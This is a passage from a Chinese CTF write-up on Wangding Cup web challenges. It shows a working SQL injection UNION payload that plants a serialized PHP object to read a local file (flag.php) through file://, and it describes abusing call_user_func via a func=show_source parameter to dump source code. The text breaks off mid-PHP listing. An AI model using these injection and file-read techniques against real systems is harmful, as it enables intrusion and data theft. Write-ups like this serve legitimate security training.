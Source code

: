 解码一下，果然是
接下来就是找反序列化的入口，序列化的内容就是
`O:8:"UserInfo":3:{s:4:"name";s:4:"John";s:3:"age";i:1000;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

想起来在用联合查询时，**unserialize**报错了，所以反序列化很可能就是这四个列里面的某个，试了一下
第二列是**username**，而第四列就是反序列化的入口
构造

```sql
?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"John";s:3:"age";i:1000;s:4:"blog";s:29:"file:///var/www/html/flag.php";}';--+
```

![image-20220725125922729](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725125922729.png)

成功回显，解码一下那段**base64**就得到flag啦

```php
<?php

$flag = "flag{53097970-4064-4fc9-9fab-7d1eb7d75473}";
exit(0);
```



## [网鼎杯 2020 朱雀组]phpweb



网鼎杯的题真是太有意思辣😄

打开网页(吓人😫)
![image-20220725164645903](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725164645903.png)

什么都点不了，直接抓包，看见了有意思的地方
![image-20220725165222423](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725165222423.png)

有一个**func**和**p**，func嘛，很像函数，直接传个phpinfo，返回**Hacker**，eval，system也被ban了(随便输几个字母看报错就能发现其实就是**call_user_func()**)
然后苦想了好久  要么类似eval这种，里面的参数也能当作函数执行的，要么就是直接一个函数加任意个参数得到flag的，没想到
于是决定看下源码
`func=show_source&p=index.php`

```php
<!DOCTYPE html>
<html>
<head>
    <title>phpweb</title>
    <style type="text/css">
        body {
            background: url("bg.jpg") no-repeat;
            background-size: 100%;
        }
        p {
            color: white;
        }
    </style>
</head>

<body>
<script language=javascript>
    setTimeout("document.form1.submit()",5000)
</script>
<p>
    <?php
```
